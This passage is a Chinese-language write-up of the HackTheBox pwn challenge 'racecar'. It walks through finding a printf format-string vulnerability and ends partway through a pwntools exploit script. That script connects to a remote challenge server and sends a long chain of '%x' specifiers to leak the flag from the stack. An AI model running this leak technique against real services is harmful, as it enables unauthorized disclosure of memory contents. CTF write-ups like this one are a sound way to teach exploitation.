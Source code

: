 有点意思，这时候我们可以创建一个flag.txt然后往里面输点东西

之后出现的情况是下面这样的

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/4.png)

### 2.分析程序

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/5.png)

哦吼，看到了printf函数的格式化字符串漏洞

稍微调试一下

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/6.png)

然后看下格式化字符串出现的东西

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/7.png)


第11个就是我们输入的flag的4个字节啦

### 3.exp编写
编写exp有些值得质疑的点，比如收到的%x-%x...形式的字符串
需要去首尾空格，然后看看分片

用binascii库的 a2b_hex时，顺序的反的，需要倒过来



    from pwn import *
    from binascii import a2b_hex

    #io = process("./racecar")
    io = remote("178.128.168.198",30254)

    io.recvuntil("Name:")
    io.sendline("wsxk")
    io.recvuntil("Nickname:")
    io.sendline("wsxk")

    io.recvuntil("Car selection")
    io.sendline(str(2))
    io.recvuntil("Select car:")
    io.sendline(str(1))

    io.recvuntil("Select race:")
    io.sendline(str(2))

    io.recvuntil("Do you have anything to say to the press after your big victory?")
    io.sendline("%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x")

    io.recvuntil("The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this:")
    io.recvline()
    return_strings=io.recvline()
    #print(return_strings)
